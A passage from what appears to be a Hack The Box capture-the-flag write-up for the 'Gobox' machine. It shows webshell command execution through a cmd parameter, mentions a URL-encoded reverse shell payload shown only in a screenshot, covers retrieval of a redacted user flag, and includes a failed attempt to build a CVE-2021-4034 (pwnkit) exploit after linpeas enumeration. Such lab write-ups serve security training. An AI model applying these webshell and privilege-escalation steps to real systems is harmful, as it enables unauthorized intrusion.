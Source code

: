 Navigating to http://gobox.htb:80/shell.php?cmd=id will then return us the output of the ```id``` command. However, we realize that the output is now changed to www-data which means that we are now out of the container. 

![Webshell](https://github.com/joelczk/writeups/blob/main/HTB/Images/Gobox/webshell.png)

Afterwards, we can use a reverse shell payload on the ```cmd``` parameter and spawn a reverse shell connection. However, we would need to url encode the payload for reverse shell connection.

![Reverse shell connection](https://github.com/joelczk/writeups/blob/main/HTB/Images/Gobox/reverse_shell.png)

### Obtaining user flag
```
www-data@gobox:/home/ubuntu$ cat /home/ubuntu/user.txt
cat /home/ubuntu/user.txt
<Redacted user flagcd D>
```

### Linpeas Enumeration
Using the linpeas script, we can see that this machine is vulnerable to CVE-2021-4034. However, executing the script for CVE-2021-4034 fails as the build-time dependency ```cc1``` could not be found. 

```
www-data@gobox:/dev/shm/exploit/CVE-2021-4034$ make
make
cc -Wall --shared -fPIC -o pwnkit.so pwnkit.c
cc: fatal error: cannot execute ‘cc1’: execvp: No such file or directory
compilation terminated.
make: *** [Makefile:21: pwnkit.so] Error 1
```

Checking the mounted file systems also did not yield any results as the /dev/sda2 file system is mounted to /boot directory

```
www-data@gobox:/dev/shm$ df -h
df -h
Filesystem                         Size  Used Avail Use% Mounted on
udev                               1.9G     0  1.9G   0% /dev
tmpfs                              391M  1.3M  390M   1% /run
/dev/mapper/ubuntu--vg-ubuntu--lv  9.8G  3.6G  5.7G  40% /
tmpfs                              2.0G  804K  2.0G   1% /dev/shm
tmpfs                              5.0M     0  5.0M   0% /run/lock
tmpfs                              2.0G     0  2.0G   0% /sys/fs/cgroup
/dev/sda2                          976M  107M  803M  12% /boot
overlay                            9.8G  3.6G  5.7G  40% /var/lib/docker/overlay2/28dde32a8d19033c33b3170999881574bf9c8a79fe4b58f987859b2cee445305/merged
overlay                            9.8G  3.6G  5.7G  40% /var/lib/docker/overlay2/67b503aed97c2df3e766247f5a4a50b15fadddbf00f8e444b7c0a9c924cfa2fa/merged
shm                                 64M     0   64M   0% /var/lib/docker/containers/411617fa0ff82df55bb6d37beba90bf078c519961e09180498aa454e399f5727/mounts/shm
shm                                 64M     0   64M   0% /var/lib/docker/containers/3f5324b3be407cbb06d4f89479d1b0f957ed66b5891d2c4d95dbea428d3155e7/mounts/shm
```
